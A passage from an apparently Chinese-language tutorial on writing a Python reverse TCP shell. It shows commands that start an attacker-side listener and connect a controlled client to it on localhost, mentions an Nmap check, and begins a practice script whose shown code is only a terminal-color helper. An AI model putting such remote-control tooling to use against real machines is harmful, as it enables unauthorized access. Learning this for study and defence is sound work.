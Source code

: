 让我们执行服务器控制端的脚本，监听一个8000端口，看看得到了什么结果。

```
root@Sploit:~/Desktop# python reverseTcp.py '' 8000
```

执行受控制客户端在命令行上连接控制端主机，输出命令的方式如下。

```
root@Sploit:~/Desktop# python connect.py 127.0.0.1 8000
```

以下是攻击者服务器脚本的运行截图：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01534b85a6edab2c2c.png)

帮助选项如下：

[![](https://p5.ssl.qhimg.com/t0116e2ee18670d01a9.png)](https://p5.ssl.qhimg.com/t0116e2ee18670d01a9.png)

通过NMap扫描远程系统得到的结果，受控制客户端已经打开了服务端口，正如预期的那样，客户端控制台显示出来的信息应该是空的，因为我们没有打印任何东西到终端界面上。

### <a class="reference-link" name="2.3%20%E5%AE%9E%E8%B7%B5%E9%83%A8%E5%88%86"></a>2.3 实践部分

**reverse_tcp_part2.py**

```
# -*- coding: utf-8 -*-
import socket,subprocess as sp
import sys
import os
import platform

# 颜色美化函数
def script_colors(color_type,text):
    color_end = '33[0m'

    if color_type.lower() == "r" or color_type.lower() == "red":
        red = '33[91m'
        text = red + text + color_end
    elif color_type.lower() == "lgray":
        gray = '33[2m'
        text = gray + text + color_end
    elif color_type.lower() == "gray":
        gray = '33[90m'
        text = gray + text + color_end
    elif color_type.lower() == "strike":
        strike = '33[9m'
        text = strike + text + color_end
    elif color_type.lower() == "underline":
        underline = '33[4m'
        text = underline + text + color_end
    elif color_type.lower() == "b" or color_type.lower() == "blue":
        blue = '33[94m'
        text = blue + text + color_end
    elif color_type.lower() == "g" or color_type.lower() == "gree":
        gree = '33[92m'
        text = gree + text + color_end
    elif color_type.lower() == "y" or color_type.lower() == "yellow":
        yellow = '33[93m'
        text = yellow + text + color_end
    else:
        return text
    return text

```